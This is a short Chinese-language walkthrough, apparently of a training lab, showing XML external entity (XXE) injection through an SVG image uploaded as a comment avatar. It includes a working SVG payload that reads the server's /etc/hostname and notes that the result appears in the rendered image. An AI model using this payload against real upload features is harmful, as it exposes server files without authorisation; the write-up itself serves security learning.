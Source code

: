 通过文件上传进行XXE攻击

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML格式的示例是Office文档格式（例如DOCX）和图像格式（例如SVG）。

例如：

一个应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG之类的格式，使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，因此攻击者可以提交恶意的SVG图像，从而到达XXE漏洞的隐藏攻击面。



文章评论处可以上传图片，发现可以上传svg格式的图像

尝试进行xxe攻击

1.svg内容

```javascript
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg
```

上传文件，



在评论，头像处可以看到file:///etc/hostname内容

![](images/4454373D11E2493A9274644261DB2BFDclipboard.png)



提交即可
